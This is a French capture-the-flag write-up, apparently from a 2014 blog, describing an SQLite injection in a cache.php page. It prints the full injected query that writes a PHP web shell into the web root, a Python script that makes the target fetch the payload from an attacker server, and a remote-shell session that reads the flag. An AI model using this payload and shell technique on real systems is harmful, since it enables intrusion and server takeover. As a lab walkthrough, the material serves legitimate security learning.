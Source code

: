 Cette fonction est vulnérable à une injection *SQLite* :-) La longueur de *$title* rend l'attaque impraticable par ce vecteur mais via *$data* on dispose d'autant de place que nécessaire.  

[Un article](http://atta.cked.me/home/sqlite3injectioncheatsheet) présent sur le web décrit une technique d'injection *SQLite* permettant de provoquer la création d'un fichier sur le serveur.  

L'idée est de pouvoir générer la requête suivante avec injection :  

INSERT INTO CACHE VALUES ('t', 'k', 'u', '**', DATETIME('NOW')); ATTACH DATABASE '/var/www/backdoor.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<? system($\_GET["cmd"]); ?>');--**', DATETIME('NOW'))  

Pour cela il suffit de placer la partie en rouge dans un fichier *req.txt* sur un serveur web à nous puis de forger une requête avec comme *Host* l'adresse IP de notre serveur :  

```python
import requests

host = "192.168.1.3"

d = {"title": "t", "uri": "http://192.168.1.3/req.txt"}

hdrs = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Host": host
        }

r = requests.post("http://192.168.1.64/cache.php?access=f4fa5dc42fd0b12a098fcc218059e061",
        data=d,
        headers=hdrs)

print r.status_code, r.reason
print r.content
```

Et cela... n'a pas fonctionné car */var/www* ne correspondait finalement pas au *DocumentRoot*. J'ai testé différents sous-dossiers avant de me rendre compte qu'en utilisant simplement un nom de fichier (sans path) ça écrivait dans le même dossier que *cache.php* (donc à la vrai racine web).  

Avec la backdoor PHP ainsi placée on pouvait alors facilement mettre en place un *tshd* et accéder ensuite au serveur :  

```plain
$ ./tsh 192.168.1.64
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ bash
www-data@misc:/var/www/src$ ls
api.php  backdoor.php  blog.php  cache.php  css  deletecomment.php  documents  favicon.ico  fonts  img  index.html  index.php  js  login.php  logout.php
www-data@misc:/var/www/src$ cd ..
www-data@misc:/var/www$ ls
casper.js  db  lib  release  src
www-data@misc:/var/www$ cd / 
www-data@misc:/$ ls
bin  boot  challenges  chroots  dev  etc  flag.txt  home  initrd.img  lib  lost+found  media  mnt  opt  proc  root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
www-data@misc:/$ cat flag.txt
Flag: TryingCrampFibrous963
```

Elle est pas belle la vie ?

*Published November 18 2014 at 22:11*